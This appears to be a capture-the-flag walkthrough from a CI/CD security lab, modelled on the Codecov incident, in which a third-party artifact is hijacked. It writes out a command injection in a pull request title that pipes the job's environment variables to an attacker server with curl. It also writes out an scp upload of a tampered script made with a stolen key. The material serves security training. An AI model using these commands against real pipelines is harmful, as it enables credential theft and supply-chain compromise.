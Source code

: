 [![CICD-SEC-8 Ungoverned Usage of 3rd Party Services](https://img.shields.io/badge/CICD--SEC--8-Ungoverned%20Usage%20of%203rd%20Party%20Services-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/ungoverned-usage-of-3rd-party-services/)

[![CICD-SEC-9 Improper Artifact Integrity Validation](https://img.shields.io/badge/CICD--SEC--9-Improper%20Artifact%20Integrity%20Validation-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/improper-artifact-integrity-validation/)

This challenge draws inspiration from the [Codecov incident](https://about.codecov.io/security-update/), in which a 3rd party artifact included in the pipeline is hijacked.

Codecov has a script used in customers’ CI pipelines. The script was hosted separately from its open-sourced code. The script was modified directly where it’s stored (without changing the source code) with malicious code that stole credentials from pipeline jobs.

Pipelines that would have validated the script’s hash against the repository code, would have prevented a successful attack.

In the challenge, Reportcov is a public repository of a 3rd party used by other CI pipelines. It has its own pipeline (which you can’t view), creating an artifact stored remotely. You can execute command injection in the pipeline in order to run malicious code in the job, steal the private key of the server hosting the artifact, and then modify it to exfiltrate credentials from CI pipelines that use the artifact.



1. Fork the _Cov/reportcov_ repository and create an arbitrary change.
2. Create a pull request with the following command as its title:

    ```shell
    `env | curl -H "Content-Type: application/json" -X POST -d "$(</dev/stdin)" <YOUR SERVER>`
    ```


3. Use the private key to upload a malicious _reportcov.sh_ script: 

    ```shell
    echo "${FLAG}" | base64 > reportcov.sh
    chmod 400 key
    scp -P 2222 -i key reportcov.sh  root@localhost:/var/www/localhost/htdocs
    ```


4. Run the dormouse pipeline.
5. Access the console output of the executed job to get the secret.